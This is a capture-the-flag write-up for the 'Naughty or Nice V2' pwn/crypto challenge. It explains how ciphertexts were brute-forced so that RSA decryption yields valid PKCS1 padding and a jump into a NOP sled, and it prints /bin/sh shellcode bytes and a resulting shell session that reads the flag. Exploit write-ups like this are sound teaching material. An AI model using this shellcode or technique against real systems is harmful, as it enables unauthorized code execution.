

# Day 7 - Naughty or Nice V2 - pwn, crypto

> Last year, Santa made a network service to receive instructions for Christmas wishes. Unfortunately it had some security issues, which have now been fixed. Hopefully...

Service: nc 3.93.128.89 1207

Download: [4fe49d64cc579b73f94ba74480571a1afbd4cb9a7ca17798b7fff50fb5d97713-naughty_or_nice_v2.tar.gz](https://advent2019.s3.amazonaws.com/4fe49d64cc579b73f94ba74480571a1afbd4cb9a7ca17798b7fff50fb5d97713-naughty_or_nice_v2.tar.gz)

Mirror: [naughty_or_nice](./static/naughty_or_nice)

## Analysis

Pulling up the binary in Ghidra, we can see that it is a fairly simple binary. The decompilation for the main function is done pretty well and is shown below.



Basically what this says is that a ciphertext will be read, it will be RSA decrypted, checked that it has a PKCS1 padding, and then executed. Now, in most instances, this wouldn't lead immediately to complete code execution because we can't easily construct enough shellcode with a PKCS1 padding to run a system shell.

However, there is one bug in this program which allows for much easier code execution. In looking at where data is stored in memory, we have the following:

```
0x00104160-0x001041df	ciphertext
0x001041e0-0x00104259	plaintext
```

Furthermore, the `make_executable` function call doesn't make _just_ the ciphertext executable, but the entire page which includes the ciphertext. Since we fully control the ciphertext and it is the only location where we can write data this seems like the obvious spot for shellcode.

## Constructing Ciphertext

Since we don't know the private RSA key, we can't just create a ciphertext that will decrypt correctly with padding. So, for our purposes, decrypting any ciphertext will give something like random data. Because this is the case, we can choose ciphertext which contains all of our shellcode (to execute `/bin/sh`) with some a NOP sled before it and some random data, and then force it through the decryption operation locally. If we do this enough times we'll get a payload which decrypts with valid PKCS1 padding.

Now, having the padding alone won't be enough to execute our shellcode - it will just have random instructions. So I chose to add another constraint which was that the decrypted contents contained a stub instruction such as `jmp -N` where N is some relatively nice value which would jump to our shellcode. By testing a lot of potential ciphertexts, I eventually came up with one that worked. With this in hand, it can be sent to the server for a shell. My solution is included [in a python script](./solutions/day7_solver.py) and the output is shown below.

```
$ ./solver.py
After last year's embarrassment, Santa decided to simplify how he authenticated letters.

 "What's the point of hashing the message first, if the message is short?
  We can just encrypt the message itself with the private key!
  It should be fine as long as we use a secure padding scheme like PKCS#1 1.5, right?"

So, what would you like for Christmas?

>> b'\x0c\x06\xb2\\\x95\xea\x01W\xbb3\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x901\xc0H\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xffH\xf7\xdbST_\x99RWT^\xb0;\x0f\x05'
Nice!
Nice!

>> b'id\n'
uid=999(ctf) gid=999(ctf) groups=999(ctf)

>> b'ls -al\n'
total 36
drwxr-xr-x 1 root ctf   4096 Dec  6 18:17 .
drwxr-xr-x 1 root root  4096 Dec  6 18:17 ..
-r--r----- 1 root ctf     36 Dec  6 18:14 flag
-rwxr-x--- 1 root ctf  17712 Dec  6 18:14 naughty_or_nice
-rwxr-x--- 1 root ctf     47 Dec  6 18:14 redir.sh

>> b'cat flag\n'
AOTW{Nev3r_Ev3r_r0ll_ur_0wn_crypt0}

>> b'cat redir.sh\n'
#! /bin/bash
cd /home/ctf && ./naughty_or_nice

```